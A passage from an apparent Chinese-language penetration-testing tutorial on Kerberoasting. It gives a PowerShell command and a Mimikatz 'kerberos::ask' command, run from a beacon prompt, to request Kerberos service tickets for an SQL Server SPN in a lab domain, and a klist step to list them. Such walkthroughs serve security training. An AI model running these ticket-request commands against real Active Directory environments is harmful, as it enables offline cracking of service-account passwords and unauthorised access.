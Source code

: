 PowerShell 中用于创建 Kerberos 安全令牌对象的 cmdlet。该 cmdlet 可以用于在 PowerShell 中生成 Kerberos 安全令牌，从而进行 Kerberos 认证或者 Kerberoasting 攻击。

```
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.sectest.com"
```

![image-20220925174305428](../../.gitbook/assets/image-20220925174305428.png)

列出服务票据

```
run klist
```

![QQ录屏20220925174424](../../.gitbook/assets/QQ录屏20220925174424.gif)

### 使用 Mimikatz 工具请求

使用 Mimikatz 请求指定 SPN 的服务票据，请求服务票据

```
beacon> mimikatz kerberos::ask /target:MSSQLSvc/sqlserver.sectest.com
```

![image-20220925185831758](../../.gitbook/assets/image-20220925185831758.png)

列出服务票据
